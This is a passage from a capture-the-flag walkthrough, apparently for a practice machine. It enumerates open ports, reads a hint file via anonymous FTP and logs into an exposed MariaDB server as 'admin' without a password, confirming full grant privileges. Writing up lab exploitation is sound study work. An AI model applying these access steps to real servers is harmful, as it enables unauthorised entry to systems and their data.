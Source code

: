 Summarize:

- _21 FTP it could allows anonymous login_

- _22 SSH_

- _80 Apache webserver_

- _5900 Mysql db, interesting_

- _8890 another HTTP port_

First of all I want to try with FTP port and the anonymous login:

![ftp](./pics/ftp.png)

We see there is a file called __"you_are_determined.txt"__ with the following hint:
```
Sorry, but you wasted your time!

Here is something for you :D
https://www.youtube.com/watch?v=dQw4w9WgXcQ #rickroll 100%

Wait..I'll give you a hint: see if you can access the `admin` account
```
we have an username __"admin"__, I want to try it on the DB with the following command:
```bash
mysql -h 10.10.113.90 -u admin -P 5900

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 39
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> SHOW databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
+--------------------+

SHOW GRANTS;

+--------------------------------------------------------------+
| Grants for admin@%                                           |
+--------------------------------------------------------------+
| GRANT ALL PRIVILEGES ON *.* TO `admin`@`%` WITH GRANT OPTION |
```
